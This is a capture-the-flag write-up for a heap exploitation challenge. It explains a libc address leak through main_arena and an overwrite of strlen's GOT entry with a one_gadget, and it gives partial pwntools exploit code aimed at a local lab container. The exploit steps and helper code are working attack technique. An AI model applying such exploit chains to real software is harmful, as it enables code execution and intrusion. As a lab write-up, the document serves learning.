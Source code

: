 ### Leak libc's address
- We can manipulate main_array[1] to indicate main_arena's address.
- After that, if we access to main_array[0][1], it prints main_arena's address.
- This is because string value is stored like double pointer.
<br />

```python
edit_value([1], p64(heap_base + 0x340) + b'X' * 0x8 + p64(0x20) + p64(heap_base + 0x8e0), True)
s_for_leak = edit_value([0,1], b'asdf', True)
libc_base = u64(s_for_leak + b'\x00' * 2) - 0x21ace0
print(hex(libc_base))
```
<br />

### Overwriting strlen_got to one_gadget
- Now we can overwrite anywhere in libc, by using previous step.
- When call puts() function, it uses strlen.got in libc.
- Setting main_array[1] value to strlen_got address, and edit it to one_gadget by main_array[0][1].
- call exit.
<br />

```python
edit_value([1], p64(heap_base + 0x340) + b'X' * 0x8 + p64(0x20) + p64(libc_base + 0x21a098), True)
edit_value([0, 1], p64(libc_base + 0xebc88), True)
```
<br />

## Ex code

```python
from pwn import *

r = remote('172.17.0.2', 6892)

def edit_array(idxes, size):
    r.sendlineafter(b'> ', b'1')
    for idx in idxes:
        r.sendlineafter(b'index: ', str(idx).encode())
        r.sendlineafter(b'> ', b'1')
    r.sendlineafter(b'> ', b'a')
    r.sendlineafter(b'input size: ', str(size).encode())

def edit_value(idxes, value, is_updt):
    r.sendlineafter(b'> ', b'1')
    for idx in idxes:
        r.sendlineafter(b'index: ', str(idx).encode())
        r.sendlineafter(b'> ', b'1')
    if is_updt:
        r.recvuntil(b'<S> ')
        ret_s = r.recvn(6)
        r.sendlineafter(b'bytes): ', value)
        return ret_s
    else:
        r.sendlineafter(b'> ', b'v')
        r.sendlineafter(b'input value: ', value)

def delete(idxes):
    r.sendlineafter(b'> ', b'1')
    for idx in idxes[:-1]:
        r.sendlineafter(b'index: ', str(idx).encode())
        r.sendlineafter(b'> ', b'1')
    r.sendlineafter(b'index: ', str(idxes[-1]).encode())
    r.sendlineafter(b'> ', b'2')

```